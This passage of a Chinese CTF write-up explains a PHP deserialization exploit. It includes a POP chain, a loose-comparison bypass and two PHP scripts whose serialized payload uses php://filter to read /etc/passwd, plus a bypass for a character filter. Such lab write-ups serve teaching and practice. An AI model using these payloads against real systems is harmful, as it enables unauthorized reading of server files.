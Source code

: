 反序列化直接调用`process`

所以`pop链`为`FileHandler::process()->FileHandler::read()`

并且需要`FileHandler::op == "2"`且`FileHandler::op !== "2"`

这就涉及强类型和弱类型数据比较,`op`为数字`2`时同时满足上述条件

所以`exp`为

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    protected $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```

但是这道题有过滤

```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
```

所以在对`protected`类型数据传参时无法传入`%00`

绕过方法一

`php7.1+`版本对属性类型不敏感，本地序列化的时候将属性改为`public`进行绕过即可

```php
<?php  

class FileHandler{
    public $op=2;
    public $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    public $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```
